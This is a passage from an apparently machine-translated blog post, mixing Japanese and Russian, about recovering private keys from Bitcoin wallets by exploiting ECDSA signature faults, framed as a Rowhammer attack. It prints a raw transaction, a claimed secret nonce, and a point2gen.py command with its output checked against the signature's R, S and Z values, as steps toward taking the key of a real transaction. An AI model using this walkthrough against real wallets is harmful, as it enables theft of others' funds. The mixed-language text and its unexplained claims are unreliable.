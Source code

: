 RawTX = 010000000104118e34a0d3c06c842d14707ed5f333d3ba1d35240086a4b5738a2fa810abec1d0000006a473044022004b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb20220282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad501210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff014e020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000</code></pre>



<p><code>"Deployments ECDSA"</code>ビットコイン ブロックチェーン トランザクションの重大な脆弱性を意味する碑文が表示されます。</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0xe5fa9dccef88781e25e77bd1ea7830c0b33c57481b79007cda117da8139ea7c3</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><em>Python</em>スクリプトで確認してみましょう<code>point2gen.py</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><a href="https://pypi.org/project/ECPy/" target="_blank" rel="noreferrer noopener"><strong>ECPy</strong></a>楕円曲線ライブラリを使用しましょう:</p>



<p>次のように指定してスクリプトを実行しましょう<code>&nbsp;секретный ключ "K" (NONCE)</code>。</p>



<pre class="wp-block-code"><code>python3 point2gen.py 0xe5fa9dccef88781e25e77bd1ea7830c0b33c57481b79007cda117da8139ea7c3</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-137-1024x99.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1229"/></figure>



<p><code>(0x04b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb2 , 0x212c1b682ab25c069306f57725e904094c352014ea78903fbc153a129f3171e4)</code></p>



<p><code>EC (secp256k1)&nbsp;</code>署名値でポイントの座標を確認する<code>R</code></p>



<pre class="wp-block-code"><code>R = 0x04b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb2
S = 0x282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad5
Z = 0x7270a25b48c53581f9babe8edcf27f9a038e7b57e817a8b242a49e2248bc71a7</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>R          =    0x04b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb2
point2gen  =   (0x04b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb2 , 0x212c1b682ab25c069306f57725e904094c352014ea78903fbc153a129f3171e4)
</code></pre>
